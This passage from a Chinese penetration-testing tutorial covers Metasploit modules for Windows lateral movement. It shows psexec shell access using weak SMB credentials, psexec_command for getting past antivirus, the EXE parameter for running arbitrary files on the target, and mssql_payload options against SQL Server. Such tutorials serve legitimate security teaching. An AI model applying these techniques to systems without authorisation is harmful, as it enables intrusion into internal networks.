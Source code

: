 ![enter image description here](http://drops.javaweb.org/uploads/images/d9ef71641b46db5b5cf46b9702c5b0e33df60771.jpg)

**smb**

模块路径:`exploit/windows/smb/psexec`

当使用smb_login扫出windows的弱口令时，可以尝试使用这种方法获取shell。 这是在内网中获得windows shell最基本的方法，在登陆域机器时需要设置Domain参数，否则登陆错误。

正如之前提到的show advanced，每个模块都有高级参数设定，这里的psexec就可以设置advanced中的EXE参数达到执行攻击者本地任意文件的目的(见参考<1>)。

![enter image description here](http://drops.javaweb.org/uploads/images/14bfd6eae27b93fdf61c5a3ce8d76caa3065f2cc.jpg)

![enter image description here](http://drops.javaweb.org/uploads/images/82f4f3e261de8b42513908e0a1eea3e56404fd2d.jpg)

如果目标机器有杀软或者其他简单的防护措施呢？ 那么可以尝试只执行命令

**psexec_command**

模块路径:`auxiliary/admin/smb/psexec_command`

![enter image description here](http://drops.javaweb.org/uploads/images/b708a049e2b4f225f95c16fe1da37cd2e4400b29.jpg)

这里需要注意的是psexec.exe(pstools中的工具)如果不能成功执行，那么psexec_command或许是可以执行的，并且大多数的情况下metasploit中的psexec都可以用，而psexec.exe则不能用 :(

**sqlserver**

```
msf exploit(psexec) > use exploit/windows/mssql/mssql_payload
msf exploit(mssql_payload) > show options 

Module options (exploit/windows/mssql/mssql_payload):

   Name                 Current Setting  Required  Description
   ----                 ---------------  --------  -----------
   METHOD               cmd              yes       Which payload delivery method to use (ps, cmd, or old)
   PASSWORD                              no        The password for the specified username
   RHOST                                 yes       The target address
   RPORT                1433             yes       The target port
   USERNAME             sa               no        The username to authenticate as
   USE_WINDOWS_AUTHENT  false            yes       Use windows authentification (requires DOMAIN option set)


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf exploit(mssql_payload) >

```
